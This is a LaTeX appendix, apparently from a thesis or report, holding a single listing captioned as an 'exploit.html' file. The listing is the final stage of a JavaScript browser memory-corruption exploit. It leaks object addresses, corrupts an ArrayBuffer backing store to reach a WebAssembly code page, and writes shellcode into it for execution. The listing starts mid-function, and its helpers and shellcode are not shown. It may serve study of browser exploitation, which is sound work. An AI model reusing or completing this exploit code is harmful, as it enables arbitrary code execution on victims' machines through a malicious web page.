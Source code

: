 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}[label={lst:firstLst},caption={Example of a "exploit.html" file},escapeinside=``,basicstyle=\tiny]
			return (fLow(rwarr[9]) - 1);
		}
		let corrupt_view = new DataView(corrupt_buff);
		let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
		let idx0Addr = corrupt_buffer_ptr_low - 0x10;
		let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) 
			- ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) 
			+ 0x40000;
		let delta = baseAddr + 0x1c - idx0Addr;
		if ((delta % 8) == 0) {
			let baseIdx = delta / 8;
			this.base = fLow(rwarr[baseIdx]);
		} else {
			let baseIdx = ((delta - (delta % 8)) / 8);
			this.base = fHi(rwarr[baseIdx]);
		}
		let wasmInsAddr = leakObjLow(wasmInstance);
		setbackingStore(wasmInsAddr, this.base);
		let code_entry = corrupt_view.getFloat64(13 * 8, true);
		setbackingStore(fLow(code_entry), fHi(code_entry));
		for (let i = 0; i < shellcode.length; i++) {
			corrupt_view.setUint8(i, shellcode[i]);
		}
		main();
	</script>
\end{lstlisting}


\end{appendices}
\end{document}
